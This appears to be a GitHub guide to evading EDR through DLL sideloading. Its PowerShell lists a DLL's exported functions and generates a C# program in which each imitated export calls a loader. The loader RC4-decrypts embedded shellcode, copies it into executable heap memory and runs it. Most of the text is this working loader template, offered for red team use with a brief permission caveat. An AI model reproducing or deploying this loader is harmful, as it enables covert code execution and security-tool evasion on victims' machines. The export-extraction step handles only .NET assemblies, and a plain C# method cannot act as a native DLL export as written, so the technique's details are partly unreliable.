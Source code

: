 
### Inspiration: # Evading EDR by DLL sideloading with C# - Gary Lobermier | CypherCon 6.0 (https://www.youtube.com/watch?v=YH5l3Zoy5cg)


Creating a PowerShell script that extracts the function address table (also known as the Export Address Table) from a DLL, then generates a C# program to imitate those functions for DLL sideloading, is a multi-step process. This approach involves several stages: analyzing the DLL to get the exported functions, generating the corresponding C# code, and integrating shellcode execution using `HeapCreate`, `HeapAlloc`, and RC4 decryption.

### **Step 1: Analyze the DLL to Extract Exported Functions**

First, we need to extract the exported functions from a DLL. PowerShell can be used to parse the DLL’s export table.

#### **PowerShell Script to Extract Exported Functions**

```powershell
function Get-ExportedFunctions {
    param (
        [string]$DllPath
    )

    $dll = [System.Reflection.Assembly]::LoadFile($DllPath)
    $exports = $dll.GetExportedTypes()

    $functions = @()
    foreach ($export in $exports) {
        $methods = $export.GetMethods([System.Reflection.BindingFlags]::Public -bor [System.Reflection.BindingFlags]::Static)
        foreach ($method in $methods) {
            $functions += $method.Name
        }
    }

    return $functions
}

# Example usage:
$exportedFunctions = Get-ExportedFunctions -DllPath "C:\Path\To\Your.dll"
$exportedFunctions | ForEach-Object { Write-Output $_ }
```

**Note**: The above PowerShell script assumes the DLL is a .NET assembly. For a native DLL, you would need to parse the export table manually, which is more complex and typically involves lower-level programming in C/C++.

### **Step 2: Generate the C# Program**

Once the exported functions are retrieved, we can generate a C# program that imitates these functions and includes the shellcode execution logic.

#### **C# Code Generation Script**

Here’s a PowerShell script that generates a basic C# program:

```powershell
param (
    [string]$DllPath,
    [string]$OutputFile = "GeneratedProgram.cs"
)

function Generate-CSharpCode {
    param (
        [string[]]$Functions
    )

    $template = @"
using System;
using System.Runtime.InteropServices;

class Program
{
    static void Main(string[] args)
    {
        // Shellcode execution entry point
        Execute();
    }

    // Shellcode execution method
    static void Execute()
    {
        byte[] encryptedShellcode = { /* RC4 encrypted shellcode here */ };
        byte[] key = { /* RC4 key here */ };

        byte[] shellcode = RC4Decrypt(encryptedShellcode, key);

        IntPtr heap = HeapCreate(0x00040000, (UIntPtr)shellcode.Length, UIntPtr.Zero);
        IntPtr addr = HeapAlloc(heap, 0x00000008, (UIntPtr)shellcode.Length);

        Marshal.Copy(shellcode, 0, addr, shellcode.Length);
        var execute = (Action)Marshal.GetDelegateForFunctionPointer(addr, typeof(Action));
        execute();
    }

    static byte[] RC4Decrypt(byte[] data, byte[] key)
    {
        byte[] s = new byte[256];
        byte[] k = new byte[256];
        byte temp;
        int i, j;

        for (i = 0; i < 256; i++)
        {
            s[i] = (byte)i;
            k[i] = key[i % key.Length];
        }

        j = 0;
        for (i = 0; i < 256; i++)
        {
            j = (j + s[i] + k[i]) % 256;
            temp = s[i];
            s[i] = s[j];
            s[j] = temp;
        }

        i = j = 0;
        byte[] result = new byte[data.Length];
        for (int x = 0; x < data.Length; x++)
        {
            i = (i + 1) % 256;
            j = (j + s[i]) % 256;
            temp = s[i];
            s[i] = s[j];
            s[j] = temp;
            result[x] = (byte)(data[x] ^ s[(s[i] + s[j]) % 256]);
        }

        return result;
    }

    // Imitating exported functions from the DLL
$(
    foreach ($function in $Functions) {
        "    public static void $function() { Execute(); }"
    }
)
}
"@

    return $template
}

$exportedFunctions = Get-ExportedFunctions -DllPath $DllPath
$code = Generate-CSharpCode -Functions $exportedFunctions

# Write the generated code to a file
$code | Out-File -FilePath $OutputFile
Write-Host "C# program generated and saved to $OutputFile"
```

### **Explanation of the Generated C# Code**

- **Exported Functions**: The C# code generated by this script includes a method for each function exported by the DLL. Each method simply calls the `Execute()` method.
- **Execute Method**: This method contains the core logic to decrypt the shellcode using RC4, allocate memory using `HeapCreate` and `HeapAlloc`, and execute the shellcode.
- **RC4 Decryption**: The RC4 decryption algorithm is implemented in the `RC4Decrypt` method, which takes the encrypted shellcode and a key as inputs.

### **Step 3: Customize the Shellcode and Key**

After generating the C# program, you’ll need to insert your RC4-encrypted shellcode and the corresponding key into the `Execute()` method. The shellcode should be placed in the `encryptedShellcode` array, and the RC4 key should be placed in the `key` array.

### **Step 4: Compile and Use the Generated DLL**

Once the C# program is generated and customized, you can compile it using the C# compiler (e.g., `csc.exe`). The compiled DLL can then be used for DLL sideloading attacks, where it imitates the original DLL’s exported functions but ultimately executes the shellcode.

### **Caveats and Considerations**

- **Detection**: This method of DLL sideloading and function imitation can be detected by modern EDR/AV solutions. It’s important to test in a controlled environment.
- **Legal and Ethical Use**: Ensure you have explicit permission to perform these actions in your testing environment. Unauthorized use can lead to legal consequences.
- **Error Handling**: The generated code assumes all functions are void and do not take parameters. If the original DLL’s functions have different signatures, further customization will be needed.

This approach automates the creation of a DLL that mimics the original’s exported functions and embeds shellcode execution, making it useful for advanced red team operations.